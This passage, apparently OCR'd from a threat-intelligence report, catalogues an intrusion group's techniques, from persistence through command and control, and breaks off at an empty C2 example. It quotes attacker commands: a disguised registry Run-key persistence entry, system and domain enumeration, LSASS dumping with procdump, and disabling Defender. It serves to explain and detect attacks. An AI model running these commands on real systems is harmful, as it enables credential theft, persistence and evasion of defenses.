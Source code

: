             *   `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v OneDriveUpdater /t REG_SZ /d “C:\Users\Public\OneDriveUpdater.exe” /f`.
    *   **Scheduled Tasks**: Scheduled tasks are created to run payloads at specific times or on startup.
*   **Discovery**
    *   **System Information Discovery**: Tools like systeminfo, WMIC, and PowerShell are used to gather system and domain information.
        *   Example:

            *   ```
                @echo off
                set fileName=ci.txt
                echo GET SYSTEMINFO >> %fileName% 2>&1
                systeminfo >> %fileName% 2>&1
                ```.
    *   **Account Discovery**: Active Directory is queried with PowerShell and LDAP queries to enumerate users, groups, and computers.
        *   Example:

            *   `powershell ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()`.
    *   **Network Scanning**: Open RDP, SMB, and VPN ports are scanned to identify lateral movement opportunities.
    *   **Remote System Discovery**: Use of nltest and net user to enumerate domain controllers.
    *   **Domain enumeration**: Commands such as "net user" and "nltest" are used to enumerate domain controllers.
*   **Credential Access**
    *   **OS Credential Dumping**: Memory is dumped with Procdump, and credentials are stolen from registry hives.
    *   **LSASS Dumping**: Credentials are harvested through LSASS memory dumping. Tools such as Mimikatz, ProcDump, and Task Manager are used.
        *   Example commands:

            *   `procdump -ma lsass.exe lsass.dmp`.
    *   **Veeam Credential Theft**: The Veeam-Get-Creds.ps1 script is used to extract credentials from Veeam Backup & Replication servers.
        *   This script queries the Veeam database for stored credentials and decrypts them.
*   **Lateral Movement**
    *   **Valid Accounts**: Valid credentials obtained through LSASS dumping are reused for lateral movement via PsExec and RDP.
    *   **Remote Services**: SMB/Windows Admin Shares are used for lateral movement across compromised networks.
    *   **Remote Desktop Protocol (RDP)**: Systems are accessed via RDP after stealing credentials or creating new admin users via registry edits.
    *   **SMB Shares**: Abused for spreading payloads.
    *   **Remote Services**: SMB/Windows Admin Shares are used for lateral movement across compromised networks.
*   **Defense Evasion**
    *   **Impair Defenses**: Disabling Windows Defender and other security tools is achieved via reg add and PowerShell.
        *   Example: `Set-MpPreference`.
    *   **Obfuscation**: Payloads are encoded in Base64 to bypass antivirus detection.
    *   **Living Off the Land**: Maximizing the use of built-in Windows binaries like rundll32, msiexec, and PowerShell for stealth.
*   **Command and Control (C2)**
    *   **Application Layer Protocol**: TCP connections are established via PowerShell and `New-Object System.Net.Sockets.TcpClient` to communicate with C2 servers.
        *   Example:

